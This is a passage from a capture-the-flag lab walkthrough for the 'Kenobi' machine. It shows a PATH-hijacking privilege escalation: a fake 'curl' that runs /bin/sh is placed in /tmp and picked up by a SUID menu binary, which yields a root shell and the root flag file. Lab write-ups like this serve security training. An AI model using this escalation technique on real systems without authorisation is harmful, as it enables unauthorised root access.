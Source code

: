 Let follow the steps outlined on the task to manipulate our path so we can gain root privileges on the target.

```
kenobi@kenobi:/$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh> curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```

<br />

Executing the file now and selecting the first option will escalate our privileges to root which we can use to read the contents of the `/root/root.txt` file.

```
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# whoami
root
# cat /root/root.txt
177**********9**********2*****02
```

<br />

We just pwned Kenobi!

<br />
